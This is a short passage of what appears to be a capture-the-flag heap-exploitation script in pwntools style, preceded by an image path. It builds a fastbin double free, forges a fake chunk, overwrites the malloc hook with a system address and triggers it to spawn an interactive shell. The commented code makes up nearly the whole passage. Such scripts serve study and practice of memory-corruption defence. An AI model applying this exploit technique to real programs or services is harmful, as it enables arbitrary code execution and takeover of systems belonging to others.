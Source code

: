 ```
free(1)

# Allocate the next four chunks, chunk 5 will directly overlap with chunk 0 and both chunks will have the same pointer
alloc(0x10)# Chunk 1
alloc(0x60)# Chunk 2
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5

# Commence the double free by freeing 5 then 0, and 4 in between to stop a crash
free(5)
free(4)
free(0)

# Allocate 2 chunks, fill in the chunk that was freed twice with the fake chunk, allocate that chunk again to add the fake chunk to the free list
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5
fill(0, 0x60, p64(fake_chunk) + p64(0) + 'y'*0x50)
alloc(0x60)# Chunk 0

# Allocate the fake chunk, and write over the malloc hook with the One Shot Gadget
alloc(0x60)# Chunk 6
fill(6, 0x1b, 'z'*0x13 + p64(system))

# Trigger a Malloc call to trigger the malloc hook, and pop a shell
target.sendline('1\n1\n')
target.recvuntil("Size: ")

# Drop to an interactive shell to use the shell
target.interactive()
```